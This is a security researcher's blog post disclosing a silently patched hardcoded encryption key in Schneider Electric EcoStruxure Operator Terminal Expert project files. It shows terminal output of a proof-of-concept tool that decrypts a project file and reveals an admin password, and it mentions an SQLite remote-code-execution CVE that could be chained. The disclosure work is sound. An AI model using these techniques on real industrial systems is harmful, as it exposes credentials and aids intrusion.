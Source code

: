 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, one of the bugs that was in our chain will be revealed coupled with an exploit that can help network penetration testers and red teams to pivot through a compromised network.*</p>

## Overview

<p class="cn" markdown="1">As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even though encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.</p>

## Vulnerable Versions

<p class="cn" markdown="1">Since this was a silent patch, let's be clear about what was vulnerable and what was not:</p> 
<div markdown="1" class="cn">
- `EcoStruxure Operator Terminal Expert V3.1.iso` - SHA1: `386312d68ba5e6a98df24258f2fbcfb2d8c8521b`:

   This version is vulnerable and released 20/12/19.

- `Installation_File_v3.1_SP1.zip` - SHA1: `229c8a5f9cdb1d63c2f9998d561a50a30e829d7a`:

   This version is *not* vulnerable and released 20/9/19.
</div>

## Impact

<p class="cn" markdown="1">The project file (.vxdz) was a simple zip compressed file that could be extracted.</p>

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

<p class="cn" markdown="1">When attempting to determine the file types of the .db files and/or inspect their content, we can quickly see that the files are encrypted and compressed using deflate. Normally this wouldn't be an issue, but the Security.db file, it can contain sensitive information such as usernames and passwords.</p>

```
saturn:~ mr_me$ ./eco.py 
(+) usage: ./eco.py <projectfile> [options <pack/unpack>]
(+) eg: ./eco.py sample.vxdz unpack
(+) eg: ./eco.py sample.vxdz pack
saturn:~ mr_me$ ./eco.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

<p class="cn" markdown="1">Using the PoC we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.</p>

<p class="cn" markdown="1">Furthermore, details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability aka [CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).</p>

<p class="cn" markdown="1">Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version as well: `3.8.0.1`.</p>

```
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
```

<p class="cn" markdown="1">The checkpoint blog post had all the formula to craft a working remote code execution exploit using just CVE-2019-8602.</p>

## Patch

<p class="cn" markdown="1">The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.</p>

{% include image.html
            img="assets/images/silent-schneider-revealing-a-hidden-patch-in-ecostruxure-operator-terminal-expert/patch.png"
            title="A per project password warning"
            caption="A per project password warning"
            style="width:50%;height:50%" %}

## Conclusion

<p class="cn" markdown="1">Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network.</p>

<p class="cn" markdown="1">An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).</p>